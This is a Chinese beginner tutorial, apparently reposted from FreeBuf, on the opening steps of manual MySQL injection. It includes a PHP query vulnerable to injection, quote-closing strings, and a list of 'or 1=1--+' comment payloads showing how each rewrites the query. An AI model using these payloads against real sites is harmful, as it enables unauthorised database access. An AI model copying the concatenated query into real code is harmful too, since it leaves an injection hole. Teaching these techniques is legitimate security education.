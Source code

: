 ## 新手科普 | MySQL手工注入之基本注入流程

来源：[http://www.freebuf.com/articles/web/160352.html](http://www.freebuf.com/articles/web/160352.html)

时间 2018-01-21 09:08:03

 
MySQL手工注入的基本步骤以及一些技巧的记录，当出现学习手工注入的时候，网上的文章参差不齐，导致很长一段时间对手工注入的理解一直处于一知半解的状态，特此记录本文，让小白们少走些弯路。本文只针对手工注入小白，大牛绕过轻喷。

## 步骤
 
### 注释或者闭合语句
 
首先看下一个基本的SQL语句查询源码：

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```
 


![][0] 
 
下面的步骤默认都是采用这种基本的SQL语句的，其他的注入方法换汤不换药，这里只是想整理下注入的步骤与关键性的语句。
 
### 引号闭合语句

```sql
id =1 ' and '1' ='1
```
 
带入进源码中的SQL语句就是:

```sql
SELECT * FROM users WHERE id='1 ' and '1' ='1' LIMIT 0,1
```
 
### 注释后面语句
 
#### 常用的注释payload

```sql
or 1=1--+
'or 1=1--+
"or 1=1--+
)or 1=1--+
')or 1=1--+
") or 1=1--+
"))or 1=1--+
--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
```
 
带入进源码中的SQL语句就是:

```sql
SELECT * FROM users WHERE id=''or 1=1--+' LIMIT 0,1
```
 

[18]: http://www.sqlsec.com/2018/01/concat.html
[0]: https://img2.tuicool.com/mQFVNvU.jpg
[1]: https://img0.tuicool.com/eUJZva3.jpg
[2]: https://img0.tuicool.com/z2ERNzA.jpg
[3]: https://img2.tuicool.com/QbuQjeJ.jpg
[4]: https://img2.tuicool.com/NVNvMbm.jpg
[5]: https://img2.tuicool.com/u2Evqar.jpg
[6]: https://img0.tuicool.com/aeIbeai.jpg
[7]: https://img2.tuicool.com/26RzUbN.jpg
[8]: https://img0.tuicool.com/VzQ7ruj.jpg
[9]: https://img1.tuicool.com/bAjqeqn.jpg
[10]: https://img2.tuicool.com/eA7JFjR.gif
[11]: https://img2.tuicool.com/m2YBRza.jpg
[12]: https://img0.tuicool.com/iaEvy2i.jpg
[13]: https://img2.tuicool.com/eEV7Rnb.jpg
[14]: https://img2.tuicool.com/q2M7fyE.jpg
[15]: https://img1.tuicool.com/MRj6n2i.jpg
[16]: https://img2.tuicool.com/FjQFbmM.jpg
[17]: https://img1.tuicool.com/NjaqUnj.jpg